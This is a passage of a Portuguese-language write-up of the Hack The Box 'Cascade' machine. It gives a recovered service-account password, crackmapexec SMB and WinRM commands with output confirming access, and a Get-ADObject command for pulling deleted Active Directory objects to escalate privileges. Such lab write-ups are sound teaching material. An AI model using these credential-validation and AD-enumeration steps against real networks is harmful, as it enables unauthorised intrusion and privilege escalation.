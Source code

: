 > arksvc:w3lc0meFr31nd

Sempre verificar a palavra passe com crackmapexec

```bash
crackmapexec smb 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'

#>  SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
#>  SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd

crackmapexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'

#>  WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
#>  WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
#>  WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```

Temos capacidade de entrar na máquina via evil-winrm!

## 2.4. PrivEsc

![Evil-winrm de arksvc](Assets/HTB-Windows-Medium-Cascade/evil-winrm-arksvc.png)

A ultima fase para escalar privilégios até administrador é a seguinte: Este usuário está no grupo "_CASCADE\AD Recycle Bin_". Isto permite ver todos os objectos do active directory que foram removidos. Isto inclui o tal usuário TempAdmin, cuja a sua password poderá ser a mesma do que a do Administrator.

Para reaver todos os objectos removidos, basta uma linha de comando...

```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
